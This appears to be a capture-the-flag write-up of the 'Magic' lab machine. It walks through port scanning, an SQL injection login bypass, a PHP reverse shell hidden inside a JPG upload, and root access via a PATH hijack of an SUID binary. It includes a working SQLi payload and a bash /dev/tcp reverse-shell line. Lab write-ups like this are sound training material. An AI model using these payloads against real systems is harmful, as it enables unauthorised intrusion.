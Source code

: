 # Magic Writeup
## Enumeration:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So we have SSH and a web server. Checking out the webserver shows a site with a few images, a login button, and most importantly: a message that says "log in to upload files". Automatically this gives us a pretty good map of what we have to do:
`Find a way to log in -> use a file upload vulnerability to gain a reverse shell -> Local Privesc`
#
# Initial Compromise
#
Playing around with the login form shows its vulnerable to very basic SQLi on both the username and password parameters of the login POST request:
```
User: MILI' OR '1'='1' -- 
Password: MILI' OR '1'='1' -- 
```
So now, we've gained access to the file upload part. Attempting to upload a blank file tells us that only JPG, JPEG, and PNG images are allowed. My payload for this is a simple PHP reverse shell. Renaming it to `rshell.php.jpg` returns a popup saying "what were you trying to do there"... interesting. I attempted looking at the MIME type in the request for `rshell.php.jpg`, but it's `image/jpeg` meaning that our roadblock lies elsewhere.

So what I know:
1) Extensions are checked, and can be bypassed by renaming the files
2) The file contents are checked somehow, but changing MIME type in the request does not help

I tried embedding php into the Description tag of a jpeg file, with `<?php echo shell_exec('bash -i >& /dev/tcp/10.10.14.120/7777 0>&1'); ?>` as a payload, which resulted in the code being displayed upon accessing the image, but not executed.

After a long, long struggle I finally got code execution by embedding a simple php shell into a normal JPG after the magic bytes. After another 15 minutes struggling with a reverse connection, I finally had a shell as `www-data`
#
# Privilege Escalation
#
Now I need the privileges to read `/home/theseus/user.txt`, naturally I want to see if I can become `theseus` before I jump straight to root. Looking around the web server files reveals a file called `db.php5`, and inside is contained a password. I tried to `su theseus`, but it wasn't the right password. Since the file connects to a db, I tried dumping the MYSQL database and see if there were any passwords in there, and sure enough there was a login for admin with a different password. Now, all we have to do is escalate to root.

Since I saw a lot of SUID scripts floating around the box, I started testing there and quickly found `/bin/sysinfo`. This meant all I had to do was make a fake `lshw` file containing a python reverse shell back to a different port on my machine, add the directory I was working from to `PATH`, and run sysinfo.

As expected, I got a connection and could simple do `cat /root/root.txt`
